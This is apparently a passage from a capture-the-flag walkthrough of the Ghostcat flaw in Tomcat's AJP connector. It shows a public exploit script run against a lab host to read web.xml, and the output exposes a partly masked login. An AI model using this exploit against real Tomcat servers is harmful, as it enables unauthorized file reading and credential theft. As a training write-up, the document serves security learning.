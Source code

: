 > Ghostcat is a serious vulnerability in Tomcat discovered by security researcher of Chaitin Tech. Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat. For example, An attacker can read the webapp configuration files or source code. In addition, if the target web application has a file upload function, the attacker may execute malicious code on the target host by exploiting file inclusion through Ghostcat vulnerability.

So, with the help of this vulnerability, we can directly read the configuration files of Apache and look for some useful information over there.

After visiting a few more websites, we can find [this exploit on github](https://github.com/00theway/Ghostcat-CNVD-2020-10487) which provides the exploit script along with a few screenshot to guide us how to use the exploit. We can clone the repository and run the script as explained:

```
┌─[tester@parrot-virtual]─[~/Downloads/tomghost/Ghostcat-CNVD-2020-10487]
└──╼ $python3 ajpShooter.py http://10.10.0.168 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:***********************
  </description>

</web-app>
```
